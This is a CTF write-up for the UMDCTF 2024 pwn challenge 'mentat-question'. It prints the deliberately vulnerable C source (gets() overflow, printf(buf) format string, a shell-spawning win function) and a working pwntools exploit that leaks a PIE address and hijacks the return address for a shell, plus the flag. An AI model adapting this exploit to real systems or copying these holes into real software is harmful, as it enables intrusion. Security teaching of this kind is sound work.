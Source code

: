 ```yaml
---
title: mentat-question
date: 2024-04-28T23:58:34+03:00
description: Writeup for mentat-question [UMDCTF_2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...

## Intuition

For this challenge, we receive the source code. I will be attaching it below, in a code box. We can notice multiple interesting things:
1. We have a _win_ function (``secret``).
2. We have a buffer overflow when ``gets(buf)`` is called in ``calculate``.
3. We have a format string vulnerability when ``printf(buf)`` is called in ``calculate``.
4. Binary has PIE enabled.

The idea is to get to the vulnerabilities, so it's a game of bypassing checks. Firstly, we somehow have to get to ``num2 < 1``, but also bypass ``strncmp(buf, "0", 1) == 0`` in main. We see ``num2`` is unsigned, which means we can only bypass the first condition by assigning it the value 0. However, we can't pass 0 as the input, because of the condition in main, that won't allow us to enter ``calculate`` in the first place. So then, the next idea is to give a really high number as input, so the buffer won't be ``"0"``, but after it's converted and assigned, num2 will overflow to 0. Then we can use the vulnerabilities we noticed above.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}
```

## Solution

We use the plan above to get to the vulns. Then we leak ``main`` function's address to find the PIE ASLR slide and then we get to ``calculate`` again to use the buffer overflow. We overwrite the return address with ``secret`` and that's it. You can find the script below with explanations:

```py
#!/usr/bin/env python3

from pwn import *

# okay I did a cool trick here lol
# I added +1 to skip the push rbp because system crashes on stack misalignment
# You can also do this by returning to simple ``ret`` gadget, to align again
# But I was too lazy to run ROPGadget on this challenge.
# In fact, I didn't even import in Ghidra, I used objdump and gdb only.
# I got this offset by doing main - secret in gdb
secret_offset_from_main = - 306 + 1 

#target = process("./mentat-question")
target = remote("challs.umdctf.io", 32300)

target.sendlineafter(b"Hello young master. What would you like today?", b"Division")
target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296") # max value of uint32_t that overflows to 0

# leak 25$p, found through trial and error and gdb
# you can also calculate it but usually it's not trivial
target.sendlineafter(b"Would you like to try again?", b"Yes %25$p")
print(target.recvline())
main_leak = int(target.recvline().split()[-3], 16)

# calculate absolute address
secret_addr = main_leak + secret_offset_from_main

payload = b"a" * 0x15 + p64(secret_addr)

target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296")

# do the thing
target.sendlineafter(b"Would you like to try again?", b"Yes" + payload)

# this is the part where my mentat starts having an epileptic seizure
# do they ever do that in the books?
target.interactive()
```

### Flag

``UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}``

